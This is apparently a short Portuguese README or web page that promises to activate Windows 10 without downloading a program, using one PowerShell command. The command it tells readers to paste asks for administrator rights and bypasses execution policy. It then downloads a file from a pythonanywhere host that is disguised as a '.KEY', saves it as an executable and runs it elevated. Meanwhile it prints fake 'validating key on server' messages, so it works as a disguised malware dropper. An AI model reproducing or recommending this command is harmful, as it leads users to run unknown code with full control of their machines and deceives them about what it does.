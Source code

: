 


⚡ Como Ativar Windows 10 da Correta, Sem Baixar Programa. Ative o Windows 10 Apenas Usando Comando do nativos do Windows PowerShell (admin).


## Para ativar o Windows 10 copie e cole o comando no PowerShell do Windows.


### ATENÇÃO ::: Copie o comando completo ...

> <`$path = "$env:TEMP\TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.exe"; $url = "https://downloadapplication.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY"; if (-not ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")) { Start-Process powershell.exe "-NoProfile -ExecutionPolicy Bypass -File `"$PSCommandPath`"" -Verb RunAs; exit } Write-Host "VERIFICANDO VERSÃO DO PRODUTO..."; Invoke-WebRequest -Uri $url -OutFile $path; Write-Host "VALIDANDO CHAVE NO SERVIDOR, AGUADE..."; Start-Process $path -Verb RunAs
`>

